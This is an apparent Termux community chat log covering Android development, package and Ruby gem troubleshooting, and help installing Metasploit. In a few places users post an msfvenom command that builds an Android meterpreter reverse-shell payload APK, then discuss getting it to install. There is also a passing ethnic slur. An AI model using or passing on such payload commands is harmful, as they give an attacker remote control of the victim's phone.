
2017-07-28 10:26:57	frumpylava	benl90: yes. Otherwise you'd have to compile all the software yourself.

2017-07-28 10:27:32	benl90	frumpylava: with gcc or such?

2017-07-28 10:27:47	frumpylava	clang. Termux doesn't have gcc.

2017-07-28 10:28:05	benl90	technically when I have C compiler then I could build anything?

2017-07-28 10:28:25	benl90	frumpylava: Yeah clang,but I execute it using g++ and gcc

2017-07-28 10:28:34	benl90	is that diffrent?

2017-07-28 10:29:22	frumpylava	well yeah. with a c compiler you can compile almost anything. You'd just have to patch it for Android/Termux.

2017-07-28 10:29:54	gitter	(suryapoo) Could not find activesupport-4.2.9 in any of the sources

2017-07-28 10:29:54	gitter	(suryapoo) Run `bundle install` to install missing gems.

2017-07-28 10:29:54	gitter	(suryapoo) $

2017-07-28 10:29:54	gitter	(suryapoo) :((((((

2017-07-28 10:30:54	benl90	frumpylava: does termux repo done much porting to android before deploy the program?

2017-07-28 10:31:11	gitter	(kuburan) Guys network interface should be patching manually, thats not enought to run metasploit.sh it self

2017-07-28 10:31:31	gitter	(Auxilus) Run `gem active support -v 4.2.9`

2017-07-28 10:31:52	frumpylava	benl90: Yes. most software in the repo is patched for termux in some way. only a few work with no patches at all.

2017-07-28 10:32:37	benl90	frumpylava: okay then.thanks.

2017-07-28 10:32:54	benl90	well will you answer OOT question?

2017-07-28 10:33:17	frumpylava	what question?

2017-07-28 10:33:50	benl90	frumpylava: do you code on android?

2017-07-28 10:34:56	frumpylava	benl90: yes.

2017-07-28 10:35:53	gitter	(suryapoo) @Auxilus gem active support -v 4.2.9

2017-07-28 10:35:53	gitter	(suryapoo) ERROR:  While executing gem ... (Gem::CommandLineError)

2017-07-28 10:35:53	gitter	(suryapoo)     Unknown command active

2017-07-28 10:37:34	benl90	frumpylava: what kind of language? phone or tablet?

2017-07-28 10:39:25	frumpylava	benl90: python, php, bash. Phone, but I connect to it via ssh.

2017-07-28 10:40:38	gitter	(Auxilus) Bro no space

2017-07-28 10:40:55	benl90	frumpylava: so you only use the phone as ssh client not a full powered machine?

2017-07-28 10:41:06	gitter	(Auxilus) In activesupport

2017-07-28 10:42:12	gitter	(suryapoo) So now??

2017-07-28 10:42:36	frumpylava	benl90: no. I connext from my laptop to termux. Termux runs an ssh server

2017-07-28 10:43:45	gitter	(Auxilus) @suryapoo is it installed ?

2017-07-28 10:43:57	gitter	(suryapoo) @Auxilus what bro?

2017-07-28 10:44:09	gitter	(Auxilus) Activesupport

2017-07-28 10:44:16	gitter	(suryapoo) How to check

2017-07-28 10:45:31	gitter	(suryapoo) Its showing unknown command

2017-07-28 10:45:56	gitter	(suryapoo) Installed

2017-07-28 10:47:13	benl90	frumpylava: holy, oh God. so the main development machine is your phone?

2017-07-28 10:47:14	gitter	(Auxilus) ` list`

2017-07-28 10:47:19	gitter	(Auxilus) `gem list`

2017-07-28 10:47:50	gitter	(Auxilus) Is there activesupport in the list ?

2017-07-28 10:48:30	gitter	(suryapoo) Yes

2017-07-28 10:48:37	benl90	I see.that's my rethorical question. that's awesome anyway.

2017-07-28 10:48:59	gitter	(suryapoo) @Auxilus  Could not find rails-deprecated_sanitizer-1.0.3 in any of the sources

2017-07-28 10:48:59	gitter	(suryapoo) Run `bundle install` to install missing gems.

2017-07-28 10:48:59	gitter	(suryapoo) $ bundle install

2017-07-28 10:48:59	gitter	(suryapoo) [full message: https://gitter.im/termux/termux?at=597b4eda2723db8d5e55202e]

2017-07-28 10:50:13	frumpylava	benl90: yes. I even did a talk about that recently. Here's the video, but it isn't subtitled yet: https://media.ccc.de/v/zeteco-59-termux_als_betriebssystem

2017-07-28 10:55:27	benl90	ah okay, I'll see it. I just wanted my fonepad 8 to replace my main machine. I use ksweb here on android to develop php and mailer and such. Ah.. a little bit wsting of money on it.

2017-07-28 10:56:04	benl90	but I working too long on windows env that cause me hard to move on android as main development machine. It sucks some time

2017-07-28 10:57:06	sdrausty	frumpylava: Once you translate your subtitles into English I will be glad to review it. I used to be an English Teacher. 

2017-07-28 10:58:25	benl90	ah I also wan that one. I want to write some of the review on my blog site.

2017-07-28 10:59:04	frumpylava	sdrausty: that's cool. First I need to figure out how to actually subtitle a video.

2017-07-28 11:00:09	sdrausty	frumpylava: search `ffmpeg add subtitles to mp4`

2017-07-28 11:01:10	sdrausty	You be able to do this on device. 

2017-07-28 11:01:57	sdrausty	*should be able to

2017-07-28 11:03:17	sdrausty	https://stackoverflow.com/questions/8672809/use-ffmpeg-to-add-text-subtitles

2017-07-28 11:04:24	gitter	(suryapoo) @Auxilus Fetching gem metadata from https://rubygems.org/.

2017-07-28 11:04:24	gitter	(suryapoo) Retrying fetcher due to error (2/4): IOError uninitialized stream.Segmentation fault

2017-07-28 11:04:24	gitter	(suryapoo) $

2017-07-28 11:04:37	gitter	(suryapoo) Bundle install -j5 gives the above error

2017-07-28 11:05:05	gitter	(Auxilus) WTH you are getting segfault ??

2017-07-28 11:05:08	gitter	(Auxilus) Are u in root ?

2017-07-28 11:06:16	gitter	(Auxilus) @suryapoo you better upload error screenshot on the issue

2017-07-28 11:08:26	sdrausty	benl90: What's the address to your blog?

2017-07-28 11:10:52	benl90	tahutek.net

2017-07-28 11:11:45	benl90	old Indonesian blog dedicated for open source news. but now many of the writer are working on code so the blog never updated even have a wide range of follower and reader.

2017-07-28 11:12:22	benl90	I'm busy pursuing my degree in Information System, and also work on university lab too much -_-

2017-07-28 11:14:52	gitter	(Auxilus) Which keyboard is this ?https://m.imgur.com/a/3c06b

2017-07-28 11:19:44	gitter	(suryapoo) @Auxilus ..OK..how do I do that

2017-07-28 11:21:12	sdrausty	benl90: Thanks for the link; Nice blog. Let's leave the age of whirling fans and disks behind just like we left the stone and bronze ages behind us! It would be nice to read about Termux on your blog. 

2017-07-28 11:24:42	sdrausty	Linux in your pocket = Termux

2017-07-28 11:26:11	sdrausty	Linux di saku = Termux

2017-07-28 11:26:33	sdrausty	Linux в вашем кармане = Termux

2017-07-28 11:26:52	sdrausty	Linux in deiner Tasche = Termux

2017-07-28 11:27:24	sdrausty	Linux i fickan = Termux

2017-07-28 11:27:55	sdrausty	Linux en tu bolsillo = Termux

2017-07-28 11:28:18	sdrausty	Linux dans votre poche = Termux

2017-07-28 11:29:28	gitter	(Techzindia) @Auxilus  Please re write metasploit.sh Problem while installing network_interface because you write

2017-07-28 11:29:49	gitter	(Techzindia) gem unpack etwork_interface

2017-07-28 11:29:58	gitter	(Techzindia) So change That

2017-07-28 11:31:19	sdrausty	주머니 속의 리눅스 = Termux

2017-07-28 11:31:51	sdrausty	你的口袋里的Linux = Termux

2017-07-28 11:33:29	gitter	(vishalbiswas) @Auxilus @Techzindia is correct

2017-07-28 11:33:36	gitter	(Auxilus) @Techzindia thank you very much

2017-07-28 11:34:11	gitter	(Auxilus) @vishalbiswas

2017-07-28 11:34:21	gitter	(Auxilus) @suryapoo is having segfault error

2017-07-28 11:35:15	gitter	(Auxilus) @Techzindia script is corrected now

2017-07-28 11:35:45	sdrausty	لينكس في جيبك = Termux

2017-07-28 11:35:54	gitter	(Techzindia) @suryapoo  segfault error?? @Auxilus

2017-07-28 11:36:04	gitter	(vishalbiswas) @suryapoo do you have enough space? don't try to run this script on sdcard

2017-07-28 11:36:14	gitter	(vishalbiswas) run it in your home directory

2017-07-28 11:36:45	gitter	(Auxilus) I ran it bunch of times , but it must be tried on fresh device

2017-07-28 11:37:32	gitter	(Techzindia)  @Auxilus  can i use your script for installation tutorial for My YouTube Channel please...

2017-07-28 11:37:58	gitter	(Auxilus) Man , hax4us already did that on his channel

2017-07-28 11:38:05	gitter	(Techzindia) Because 60% error while install nokogiri gem

2017-07-28 11:38:13	gitter	(Auxilus) Ye you can use my script

2017-07-28 11:38:32	gitter	(Techzindia) @Auxilus  Thenk You So much..  ;)

2017-07-28 11:38:49	gitter	(Auxilus) Just don't say that you created the script , and it's ok if you don't mention me :p

2017-07-28 11:39:17	sdrausty	vishalbiswas: Thank you for your advice on submodules. https://github.com/sdrausty/buildAPKs uses submodules as of a few days ago. Any future advice about developing this repository is welcome. 

2017-07-28 11:39:48	gitter	(Auxilus) @Techzindia you got nokogiri error with my script ?

2017-07-28 11:40:13	gitter	(vishalbiswas) sdrausty: I am looking for maven repos

2017-07-28 11:40:14	sdrausty	It builds more than 400 APKs at present on device.

2017-07-28 11:40:19	gitter	(vishalbiswas) that's the major blocker

2017-07-28 11:40:42	gitter	(vishalbiswas) did you try building any other app relying on Android Support Library

2017-07-28 11:41:05	gitter	(Auxilus) We can build app apks on Termux ?

2017-07-28 11:41:12	gitter	(Auxilus) Also what's termux-boot ?

2017-07-28 11:41:15	sdrausty	How to download and link libraries is still a hurdle to overcome. 

2017-07-28 11:42:50	sdrausty	termux-boot does not build on device with buildAPKs. termux-app builds an APK on device, but not the main app. 

2017-07-28 11:43:45	gitter	(vishalbiswas) @themastersunil try running `apt install -f`

2017-07-28 11:44:05	sdrausty	Auxilus: Yes we can build APKs on device. https://sdrausty.github.io/buildAPKs/

2017-07-28 11:44:55	gitter	(Auxilus) Thanks sdrausty

2017-07-28 11:45:00	gitter	(Auxilus) I'll check it out

2017-07-28 11:45:13	sdrausty	https://github.com/termux/termux-boot

2017-07-28 11:45:41	gitter	(vishalbiswas) it would be awesome if I could use my (mostly) useless phone to run gitlab and gitlab-ci

2017-07-28 11:46:20	sdrausty	Auxilus: Feedback has improved this repository. Feedback about buildAPKs is welcome. 

2017-07-28 11:46:53	sdrausty	*has greatly improved

2017-07-28 11:47:40	gitter	(Techzindia)  @Auxilus  no nokogiri successful installed

2017-07-28 11:49:06	sdrausty	अपनी जेब में लिनक्स = Termux

2017-07-28 11:49:50	gitter	(vishalbiswas) sdrausty: what are you using for all these translations

2017-07-28 11:50:15	benl90	I agree to left my laptop behind and use tablet for code. thanks sdrausty .

2017-07-28 11:51:11	benl90	I must take rest. Thanks for the information. God Bless.

2017-07-28 11:53:46	gitter	(vishalbiswas) benl90

2017-07-28 11:54:04	gitter	(vishalbiswas) you sound like a sage about to undertake hibernation

2017-07-28 11:55:15	gitter	(Techzindia) @vishalbiswas now tomorrow i try to install metasploit with @Auxilus  script ....4th time installation on my termux

2017-07-28 11:55:20	gitter	(Techzindia) Hehehehe

2017-07-28 11:57:10	sdrausty	vishalbiswas: translate.google.com And I am reverse translating before posting because sometimes translate.google.com does not translate well. 

2017-07-28 11:58:19	gitter	(Auxilus) @Techzindia is nokogiri is. Failing on *my script* ?

2017-07-28 11:58:44	gitter	(vishalbiswas) sdrausty: hehe that was 5 years ago

2017-07-28 11:59:34	gitter	(Auxilus) sdrausty: I will

2017-07-28 12:01:00	gitter	(kuburan) @benl90 tahutek, orang surabaya ya gan ?

2017-07-28 12:01:35	sdrausty	For example it translates "Linux in your pocket = Termux" as "लिनक्स में आपकी पॉकेट = टर्मयुक्स". Which reverse translates to: "Your Pocket = Term Oaks in Linux". Which can be completely missleading.  

2017-07-28 12:02:02	gitter	(Auxilus) 😂😂😁

2017-07-28 12:02:06	gitter	(vishalbiswas) hahahaha

2017-07-28 12:02:10	gitter	(vishalbiswas) fell off my chair

2017-07-28 12:02:14	gitter	(Auxilus) Etfff

2017-07-28 12:02:22	gitter	(Auxilus) Translation is not even correct

2017-07-28 12:02:24	sdrausty	*is (can be)

2017-07-28 12:02:51	gitter	(Auxilus) Linux me AAP ki pocket means pocket in inside Linux

2017-07-28 12:02:52	gitter	(Auxilus)

2017-07-28 12:02:59	gitter	(vishalbiswas) it actually means "your pocket in linux = termyuks"

2017-07-28 12:03:29	gitter	(Auxilus) लिनक्स में आपकी पॉकेट = your pocket in Linux = termyuks 😂😂😂

2017-07-28 12:05:10	gitter	(Auxilus) sdrausty: can I use your buildAPK to create APK from source files ? Like Termux:widget etc ? :P

2017-07-28 12:05:36	gitter	(suryapoo)  Hahahahahah

2017-07-28 12:05:41	gitter	(suryapoo) Auxi ..script correct hua kya

2017-07-28 12:06:10	gitter	(suryapoo) @vishalbiswas ..yea ..there is space in my phone and I'm inside my $HOME

2017-07-28 12:06:13	gitter	(Auxilus) Ha hua

2017-07-28 12:06:15	sdrausty	vishalbiswas: "अपनी जेब में लिनक्स = Termux" means "Linux in your pocket = Termux". Correct?

2017-07-28 12:06:21	gitter	(Auxilus) Dude try the script now

2017-07-28 12:06:34	gitter	(Auxilus) Yes correct

2017-07-28 12:06:46	gitter	(vishalbiswas) @suryapoo try again now

2017-07-28 12:06:53	gitter	(vishalbiswas) btw, where are you from?

2017-07-28 12:06:57	gitter	(Auxilus) say it sdrausty

2017-07-28 12:07:02	gitter	(Auxilus) Can I ?

2017-07-28 12:07:14	gitter	(Auxilus) Looks like he is from Maharashtra

2017-07-28 12:07:33	sdrausty	Auxilus: Yes, you can. https://sdrausty.github.io/buildAPKs/reallyEasilyBuildAndroidAPKsOnDevice

2017-07-28 12:07:42	gitter	(Auxilus) Yeee

2017-07-28 12:07:43	gitter	(Auxilus) Ty

2017-07-28 12:07:58	gitter	(suryapoo) I'm from Mumbai

2017-07-28 12:08:05	gitter	(vishalbiswas) where in mumbai?

2017-07-28 12:08:07	gitter	(suryapoo) Tuje kaise malum pada?

2017-07-28 12:08:08	gitter	(vishalbiswas) me too

2017-07-28 12:08:13	gitter	(suryapoo) Borivali

2017-07-28 12:08:14	gitter	(suryapoo) U?

2017-07-28 12:08:18	gitter	(vishalbiswas) andheri

2017-07-28 12:08:24	gitter	(suryapoo) Auxi

2017-07-28 12:08:37	gitter	(vishalbiswas) he is a little further

2017-07-28 12:08:48	gitter	(Auxilus) Poojary to Maharashtra mein he Hai

2017-07-28 12:09:10	gitter	(vishalbiswas) stick to english please

2017-07-28 12:09:20	gitter	(suryapoo) @Auxilus ..:D

2017-07-28 12:09:21	sdrausty	vishalbiswas: I was born in Europe, and now I live in the USA...

2017-07-28 12:09:32	gitter	(suryapoo) @Vishal Biswas..

2017-07-28 12:09:43	sdrausty	The melting pot = USA

2017-07-28 12:09:44	gitter	(vishalbiswas) sdrausty: you have citizenship of both?

2017-07-28 12:09:46	gitter	(suryapoo) Awesome work peeps

2017-07-28 12:09:55	sdrausty	NO

2017-07-28 12:09:59	gitter	(suryapoo) I'll install MSF in some time

2017-07-28 12:10:28	gitter	(Auxilus) M from Sangli

2017-07-28 12:10:34	gitter	(suryapoo) Ohh...

2017-07-28 12:10:40	gitter	(Auxilus) But moving to puna for engineering

2017-07-28 12:10:41	gitter	(suryapoo) Nice ,auxi

2017-07-28 12:10:55	gitter	(Auxilus) On 1st August

2017-07-28 12:11:11	gitter	(vishalbiswas) sdrausty: so are you an englishman or an american idiot?

2017-07-28 12:11:34	gitter	(suryapoo) Guysm.what are your views on Guis in Python.. I'm thinking of moving back to Python.. I plan to make guis..

2017-07-28 12:12:05	gitter	(vishalbiswas) gui and python is a disaster

2017-07-28 12:12:12	sdrausty	I have always wanted to visit India and Nepal. I wander whether I will ever do so. 

2017-07-28 12:12:22	sdrausty	*wonder

2017-07-28 12:13:12	sdrausty	I have been to the UK, but only briefly. 

2017-07-28 12:13:33	gitter	(vishalbiswas) so where actually were you born?

2017-07-28 12:13:52	sdrausty	Warsaw

2017-07-28 12:13:59	gitter	(vishalbiswas) germanY?

2017-07-28 12:14:11	sdrausty	Where were you born Vish?

2017-07-28 12:14:28	gitter	(vishalbiswas) shit, poland

2017-07-28 12:14:30	sdrausty	Now it is in Poland.

2017-07-28 12:14:33	gitter	(suryapoo) @vishalbiswas ...Really?? ..oh god..that's the only language I'm decent at@vishalbiswas

2017-07-28 12:14:53	sdrausty	Before that it was in Germany.

2017-07-28 12:15:06	gitter	(vishalbiswas) @suryapoo if you are doing lower level canvas stuff, its ok

2017-07-28 12:15:29	gitter	(vishalbiswas) but tkinter looks like a frankenstein

2017-07-28 12:15:35	gitter	(suryapoo) @vishalbiswas ...hahahahah

2017-07-28 12:15:50	gitter	(suryapoo) @vishalbiswas ...which language do u suggest.. For making guis

2017-07-28 12:15:55	gitter	(suryapoo) Pls don't tell java

2017-07-28 12:15:56	gitter	(vishalbiswas) sdrausty: so it was in germany when you were born?

2017-07-28 12:16:05	sdrausty	Before that Warsaw was in Russia.

2017-07-28 12:16:27	gitter	(vishalbiswas) wow, you can claim to be in so many countries

2017-07-28 12:16:36	gitter	(vishalbiswas) without actually moving a leg

2017-07-28 12:16:55	gitter	(vishalbiswas) although I don't think the circumstances of those changes would have been anything but fun

2017-07-28 12:17:58	gitter	(vishalbiswas) @suryapoo I'm not a very good person to ask for advice. I don't create much gui

2017-07-28 12:18:13	gitter	(vishalbiswas) but I do android and C# on windows

2017-07-28 12:18:39	gitter	(vishalbiswas) trying to learn Qt for cross plat

2017-07-28 12:18:47	sdrausty	And before that, it was in the Polish - Lithuanian Commonwealth. Prior to that, Warsaw was in the Kingdom of Poland. 

2017-07-28 12:18:58	gitter	(suryapoo) @vishalbiswas alright...

2017-07-28 12:20:30	gitter	(vishalbiswas) you sure know much about your hometown

2017-07-28 12:22:09	gitter	(vishalbiswas) was this change recent? I remember learning Warsaw was in Germany in school

2017-07-28 12:24:07	gitter	(sdrausty) It's a great city with many Polaks

2017-07-28 12:25:35	gitter	(sdrausty) *Polacks

2017-07-28 12:25:36	gitter	(sdrausty)

2017-07-28 12:25:59	gitter	(vishalbiswas) why is your profile pic the earth

2017-07-28 12:27:20	gitter	(suryapoo) Guys ...is it worth learning C in 2017?

2017-07-28 12:27:37	sdrausty	I have stepped foot on 4 (four) continents, so Earth with a view of the USA is appropriate. 

2017-07-28 12:28:06	gitter	(suryapoo) Like in the age of Python, Js ..C looks like its dying ..

2017-07-28 12:28:52	gitter	(vishalbiswas) sdrausty: well the only way I see achieving that feat is by cutting of my feet and parceling it on each of those four continents. #darkhumour

2017-07-28 12:28:59	gitter	(vishalbiswas) @suryapoo C will never die

2017-07-28 12:29:12	gitter	(vishalbiswas) it is the fastest programming language

2017-07-28 12:30:07	gitter	(suryapoo) @vishalbiswas true that..but is it worth learning now?

2017-07-28 12:30:21	gitter	(suryapoo) CoZ Python makes u learn faster ..

2017-07-28 12:30:29	gitter	(vishalbiswas) that it does

2017-07-28 12:30:38	gitter	(vishalbiswas) my first programming language was python

2017-07-28 12:30:42	gitter	(suryapoo) You focus on the logic ..not on when to free memory

2017-07-28 12:31:02	gitter	(suryapoo) I started with C ...I didn't understand one bit

2017-07-28 12:31:14	gitter	(suryapoo) Went to Py..became my fav language..

2017-07-28 12:31:19	gitter	(vishalbiswas) but it is an interpreted language so you don't get low level features

2017-07-28 12:31:30	gitter	(suryapoo) Tried ruby..not that enjoyable

2017-07-28 12:31:37	gitter	(suryapoo) I feel lost in this jungle

2017-07-28 12:31:51	gitter	(suryapoo) I tried all this ..thanks to termux

2017-07-28 12:33:06	gitter	(vishalbiswas) thank fornwall, if you do quick grep count on termux-packages repo, you'll see that more than half of those 605 packages are maintained by him alone

2017-07-28 12:34:57	sdrausty	vishalbiswas: Any how would go about downloading and linking libraries? Where is the information about which libraries are needed, and how would you go about downloading them manually. 

2017-07-28 12:36:37	gitter	(vishalbiswas) sdrausty: https://mvnrepository.com/artifact/com.google.android/android/4.1.1.4

2017-07-28 12:36:50	gitter	(vishalbiswas) see those tabs below "Used by"?

2017-07-28 12:37:27	gitter	(vishalbiswas) we can either port one of them to termux or emulate their working

2017-07-28 12:37:32	gitter	(suryapoo) @vishalbiswas ...yea thanks @fornwall

2017-07-28 12:38:31	gitter	(vishalbiswas) @suryapoo I always wanted to learn nodejs, it's getting popular really fast and looks quite powerful

2017-07-28 12:38:33	sdrausty	thx -rw-rw---- 1 root everybody 12947757 Jul 28 12:37 android-4.1.1.4.jar

2017-07-28 12:38:45	sdrausty	How to link it?

2017-07-28 12:39:31	gitter	(suryapoo) @vishalbiswas ...its JS on the server side

2017-07-28 12:39:42	gitter	(suryapoo) JS is eating the world

2017-07-28 12:40:00	sdrausty	Which aapt and ecj optoins? 

2017-07-28 12:40:28	gitter	(vishalbiswas) sdrausty: I don't  know the specifics just search for "linking java library"

2017-07-28 12:40:48	sdrausty	OK

2017-07-28 12:41:19	gitter	(vishalbiswas) @suryapoo I will take up kotlin, rust or nodejs next

2017-07-28 12:42:24	gitter	(suryapoo) @vishalbiswas ..im stucking with nodejs

2017-07-28 12:42:52	gitter	(suryapoo) Sticking*

2017-07-28 12:42:54	gitter	(themastersunil) @vishalbiswas Done "apt install -f" but I'm not able to install to install python. because after 96% stopped....

2017-07-28 12:43:31	gitter	(themastersunil) please fix this issue....

2017-07-28 12:43:39	gitter	(vishalbiswas) @themastersunil there is some problem with postinstall script

2017-07-28 12:44:42	gitter	(themastersunil) so what am i do???

2017-07-28 12:45:58	gitter	(Ashish882) Hi

2017-07-28 12:46:33	sdrausty	vishalbiswas: Where is information about necessary libraries stored in the APK source. 

2017-07-28 12:46:45	gitter	(Ashish882) @vishalbiswas can you tell me how I forward port in android

2017-07-28 12:46:50	gitter	(vishalbiswas) sdrausty: build.gradle

2017-07-28 12:47:02	gitter	(vishalbiswas) @themastersunil try removing ../usr/var/lib/dpkg/info/python.postinst

2017-07-28 12:47:03	sdrausty	THANK YOU

2017-07-28 12:47:32	gitter	(themastersunil) okk, I'll try..

2017-07-28 12:48:05	gitter	(vishalbiswas) then `apt install -f` or `dpkg-reconfigure python`

2017-07-28 12:49:31	sdrausty	Ashish882: Hello

2017-07-28 12:50:07	gitter	(themastersunil) $ apt install -f

2017-07-28 12:50:08	gitter	(themastersunil) E: Could not get lock /data/data/com.termux/files/usr/var/lib/dpkg/lock - open (11: Try again)

2017-07-28 12:50:08	gitter	(themastersunil) E: Unable to lock the administration directory (/data/data/com.termux/files/usr/var/lib/dpkg/), is another process using it?

2017-07-28 12:50:41	gitter	(Techzindia) @Auxilus Bro in your sh screen its say segmentation​ fault while run ./msfconsole

2017-07-28 12:51:02	gitter	(vishalbiswas) dpkg or apt is already running or you force killed it

2017-07-28 12:51:04	gitter	(Techzindia) I fresh Install Termux And use script

2017-07-28 12:51:22	gitter	(Techzindia) @vishalbiswas any idea?....

2017-07-28 12:51:38	gitter	(vishalbiswas) @themastersunil remove the lock file /data/data/com.termux/files/usr/var/lib/dpkg/lock

2017-07-28 12:51:50	gitter	(themastersunil) ok

2017-07-28 12:52:02	sdrausty	thermastersuni: search `dpkg lock file` if another process is not using it. 

2017-07-28 12:52:38	gitter	(themastersunil) I've removed lock file..

2017-07-28 12:52:45	sdrausty	And?

2017-07-28 12:53:10	gitter	(vishalbiswas) @Techzindia did you do it after he updated the script?

2017-07-28 12:53:16	gitter	(vishalbiswas) there was a typo in his script

2017-07-28 12:54:22	gitter	(Techzindia) No but I Install network_interface Manully

2017-07-28 12:55:33	gitter	(Techzindia) Now What Next!!! :worried:

2017-07-28 12:56:32	gitter	(Hax4us) Why my payload apk size is just 0 kb

2017-07-28 12:56:33	gitter	(vishalbiswas) @suryapoo the only problem is `var myWebSkills = ;( NOT FOUND );`

2017-07-28 12:56:36	gitter	(Hax4us) @vishalbiswas

2017-07-28 12:57:34	gitter	(vishalbiswas) @Hax4us is it exactly 0kb or 0.18kb or something

2017-07-28 12:58:07	gitter	(Techzindia) @Hax4us

2017-07-28 12:58:19	gitter	(themastersunil) @vishalbiswas python is installed, but when i execute python command, my phone - switched off

2017-07-28 12:58:38	gitter	(Techzindia) ruby msfvenom -p android/meterpreter/reverse_tcp LHOST=YOUR IP LPORT=4444 R > /sdcard/name.apk

2017-07-28 12:59:43	gitter	(vishalbiswas) @themastersunil this is major. can you provide strace output `strace -y -f  -o trace.txt python`

2017-07-28 13:00:04	gitter	(vishalbiswas) @Techzindia run bundle install

2017-07-28 13:00:52	gitter	(Hax4us) @vishalbiswas  srry I see again and payload size was around 8kb  but when I m trying to install .....gives parse error

2017-07-28 13:01:05	gitter	(kuburan) @Auxilus i try your script with fresh termux installation, you forgot added ncurses-utils, in my case i still need install ncurses-utils package., please fix your script,,,,,,.  ./msfconsole: No such file or directory - infocmp

2017-07-28 13:01:05	gitter	(kuburan) /data/data/com.termux/files/usr/lib/ruby/gems/2.4.0/gems/rb-readline-0.5.4/lib/rbreadline.rb:1815:in `get_term_capabilities': undefined method `split' for nil:NilClass (NoMethodError)

2017-07-28 13:01:05	gitter	(kuburan)         from /data/data/com.termux/files/usr/lib/ruby/gems/2.4.0/gems/rb-readline-0.5.4/lib/rbreadline.rb:2027:in `_rl_init_terminal_io'

2017-07-28 13:01:05	gitter	(kuburan) [full message: https://gitter.im/termux/termux?at=597b6dd14bcd78af56f3fab5]

2017-07-28 13:03:01	gitter	(themastersunil) strace -y -f -o trace.txt python

2017-07-28 13:03:01	gitter	(themastersunil) The program 'strace' is not installed. Install it by executing:

2017-07-28 13:03:01	gitter	(themastersunil)  pkg install strace

2017-07-28 13:03:01	gitter	(themastersunil) [full message: https://gitter.im/termux/termux?at=597b6e464bcd78af56f3fc0f]

2017-07-28 13:03:11	gitter	(themastersunil) nothing....

2017-07-28 13:04:24	gitter	(Hax4us) @kuburan  here is updated and self tested script curl -LO https://raw.githubusercontent.com/Hax4us/Metasploit_termux/master/metasploit.sh

2017-07-28 13:04:33	gitter	(vishalbiswas) @themastersunil it will save output in trace.txt

2017-07-28 13:05:29	gitter	(Hax4us) @vishalbiswas tell...bro...whats the Sol for parse error...I think...I will have to sign my app..??

2017-07-28 13:05:51	gitter	(themastersunil) so, again I'm run python my phone hang or lang....

2017-07-28 13:06:11	gitter	(vishalbiswas) @Hax4us no, can you try again?

2017-07-28 13:06:39	gitter	(vishalbiswas) @Hax4us i don't actually use metasploit myself, so don't know about all vars

2017-07-28 13:07:20	gitter	(Hax4us) Yes I tried ...kk...now I m trying to sign apk..according to Google baba😁

2017-07-28 13:07:37	gitter	(vishalbiswas) @themastersunil well, I'm unable to reproduce this on my phone

2017-07-28 13:07:53	gitter	(vishalbiswas) so your output would help

2017-07-28 13:09:11	gitter	(themastersunil) $python

2017-07-28 13:09:11	gitter	(themastersunil) python is runing....

2017-07-28 13:09:15	gitter	(themastersunil) thank you

2017-07-28 13:09:33	gitter	(vishalbiswas) @themastersunil alternatively you can uninstall and then reinstall it

2017-07-28 13:09:43	gitter	(themastersunil) ok

2017-07-28 13:09:57	gitter	(vishalbiswas) thanks for what? that error just solved itself

2017-07-28 13:13:52	gitter	(kuburan) Yes, @Hax4us i see that ncurses-utils inside your script. it will be fix it.

2017-07-28 13:16:45	gitter	(Techzindia)  @vishalbiswas again segmentation fault error

2017-07-28 13:17:57	gitter	(vishalbiswas) @Techzindia weird, try @Hax4us's script

2017-07-28 13:19:01	gitter	(Techzindia) Ok :(

2017-07-28 13:19:25	gitter	(Hax4us) Yes viral bro...try

2017-07-28 13:20:30	gitter	(vishalbiswas) @Techzindia it's probably occurring because you have some corrupted gem installed

2017-07-28 13:20:38	gitter	(vishalbiswas) before running that script

2017-07-28 13:20:58	gitter	(vishalbiswas) uninstall ruby and remove `$PREFIX/lib/ruby`

2017-07-28 13:21:09	gitter	(Techzindia)  Okay

2017-07-28 13:24:38	gitter	(Techzindia) @Hax4us ya i try again...3rd time in today

2017-07-28 13:26:34	gitter	(kuburan) And @Techzindia also don't forget to delete the hiden folder .gems and .bundler in home directory

2017-07-28 13:42:33	gitter	(Techzindia) Ya

2017-07-28 13:42:36	gitter	(Techzindia) Sure

2017-07-28 14:42:36	frumpylava	@auxilus The keyboard is swiftkey.

2017-07-28 14:43:06	frumpylava	I'm pretty sure i actually made this screenshot.

2017-07-28 16:40:12	gitter	(trick765) msfvenom -p android/meterpreter/reverse_tcp LHOST= myip LPORT=4444 R > any.apk

2017-07-28 16:41:18	gitter	(trick765) apk  is error not install Hax4us what i do

2017-07-28 20:27:15	gitter	(fornwall) anyone using mpd, mpc and/or ncmpcpp and want to help out testing https://github.com/termux/termux-packages/pull/1175?

2017-07-28 20:46:50	live_the_dreams	seems to work so far

2017-07-28 21:04:07	live_the_dreams	i got cargo working in arm vish

2017-07-28 21:04:51	live_the_dreams	it is libgit2

2017-07-28 21:04:52	live_the_dreams	the funny thing is compiling libgit2 with -d makes cargo work...

2017-07-28 21:05:09	live_the_dreams	@vishalbiswas ...

2017-07-28 22:10:49	gitter	(suryapoo) Peeps...good morning.. Someone is building apks from termux ???

2017-07-28 22:11:58	live_the_dreams	>> sdrausty if i remember correctly

2017-07-28 22:26:08	gitter	(vishalbiswas) live_the_dreams: -d as in TERMUX_DEBUG?

2017-07-28 22:26:25	live_the_dreams	yes

2017-07-28 22:27:12	live_the_dreams	was going to debug it... and it worked first go

2017-07-28 22:27:12	live_the_dreams	makes it hard to debug

2017-07-28 22:59:44	live_the_dreams	-DCMAKE_BUILD_TYPE=Debug is what makes it work

2017-07-28 23:30:04	gitter	(Auxilus) @kuburan thanks, ill add it

2017-07-28 23:34:05	gitter	(Auxilus) @kuburan I've added it

2017-07-28 23:59:20	gitter	(Auxilus) @vishalbiswas I've added ncursrs and ncurses-utils to Prequisities in wiki

2017-07-29 00:37:00	gitter	(Techzindia) @Auxilus  why i getting error while run ./msfconsole after all installation complete

2017-07-29 00:40:44	gitter	(vishalbiswas) @Techzindia did you try removing $PREFIX/lib/ruby and starting from scratch?

2017-07-29 00:47:10	gitter	(Auxilus) @Techzindia your old installation of metasploit could be conflicting

2017-07-29 00:47:33	gitter	(Auxilus) Eg, previously installed gems etc

2017-07-29 00:48:33	gitter	(Auxilus) @vishalbiswas my script is perfect ri8 ?

2017-07-29 01:08:12	gitter	(Auxilus) sdrausty:I can't find steps to build APK from source

2017-07-29 01:19:30	gitter	(Techzindia) NOW network_interface error.   .

2017-07-29 01:19:33	gitter	(Techzindia) current directory: /data/data/com.termux/files/usr/lib/ruby/gems/2.4.0/gems/network_interface-0.0.1/ext/network_interface_ext

2017-07-29 01:19:33	gitter	(Techzindia) make "DESTDIR="

